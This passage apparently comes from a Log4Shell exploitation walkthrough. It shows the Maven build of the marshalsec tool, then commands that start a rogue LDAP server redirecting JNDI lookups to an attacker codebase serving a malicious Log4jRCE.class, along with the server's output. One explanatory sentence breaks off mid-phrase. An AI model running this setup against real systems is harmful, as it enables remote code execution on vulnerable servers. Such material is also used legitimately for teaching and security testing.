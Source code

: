 1. Compile & package into jar

<pre>
$ mvn clean package -DskipTests
[INFO] Scanning for projects...
[INFO]
[INFO] ----------------< org.eenterphace.mbechler:marshalsec >-----------------
[INFO] Building marshalsec 0.0.3-SNAPSHOT
[INFO] --------------------------------[ jar ]---------------------------------
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/
plugins/maven-surefire-plugin/2.19.1/maven-surefire-plugin-2.19.1.pom
...
...\target\marshalsec-0.0.3-SNAPSHOT-all.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  06:02 min
[INFO] Finished at: 2022-02-22T00:33:48+08:00
[INFO] ------------------------------------------------------------------------
</pre>

2. Run the rogue LDAP server. 
Any request to this LDAP will be forwarded to the attacker codebase which has malicious

<pre>
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
Listening on 0.0.0.0:1389
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
</pre>